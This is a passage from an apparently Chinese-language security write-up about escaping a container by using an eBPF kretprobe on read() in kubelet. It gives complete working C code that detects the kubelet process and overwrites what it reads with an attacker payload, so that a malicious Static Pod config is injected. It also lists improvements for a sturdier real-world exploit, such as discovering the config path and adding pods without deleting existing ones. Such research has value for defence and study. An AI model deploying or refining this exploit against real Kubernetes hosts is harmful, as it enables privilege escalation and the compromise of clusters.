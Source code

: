 ```
#define __SYSCALL_DEFINEx(x, name, ...)                    \
    // ...
    asmlinkage long sys##name(__MAP(x,__SC_DECL,__VA_ARGS__))    \
        __attribute__((alias(__stringify(__se_sys##name))));    \
    ALLOW_ERROR_INJECTION(sys##name, ERRNO);            \
    // ...
#endif /* __SYSCALL_DEFINEx */

```

该 helper 需要内核开启 `CONFIG_BPF_KPROBE_OVERRIDE` 选项，并且使用了该 helper 会导致被 hook 函数不会真正执行，我们 hook `read` 时需要在第二次 `read` 时返回 0 保证，不然 kubelet 第二次调用 `read` 时会读取真正的 yaml 文件内容。

完整的 hook `read` 返回代码如下：

```
SEC("kretprobe/__x64_sys_read")
int kretprobe_sys_read(struct pt_regs *ctx)
{
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(&comm, sizeof(comm));
    // executable is not kubelet, return
    if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))
        return 0;
    if (read_buf == 0)
        return 0;
    if (written)
    {
        written = 0;
        bpf_override_return(ctx, 0);
        read_buf = 0;
        return 0;
    }
    bpf_probe_write_user(read_buf, payload, PAYLOAD_LEN);
    bpf_override_return(ctx, PAYLOAD_LEN);
    read_buf = 0;
    written = 1;
    return 0;
}

```

最终效果：

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP5ia9LqXx4HVeKfGiaAzzdUDayAxlr4tSdJXbn0ibaFyS1E16q5rgOEhSMYly9j5Ee1XIGXHkR3h6STg/640?wx_fmt=png)

### 改进  

本节展示的示例仅仅是一个 PoC，想获取在实战环境下更完善的 exploit 我们还会需要以下改进：

• 上述示例的前提条件为知道对应 yaml 路径，因此在实战环境下，想写出更稳定的 exploit 需要先 hook 对应系统调用，得到 `kubelet` 相应的 Static Pod 配置文件路径 •PoC 的利用方式是覆盖原有的 yaml 文件内容，这会导致原来的 Pod 被删除，更可靠的方式是能实现添加 Pod 配置的方式，不过由于 `kubelet` 使用的是 `filepath.Glob` ，不符合 pattern 的文件路径都会被过滤，不能简单 hook `getdent64` 系统调用来利用
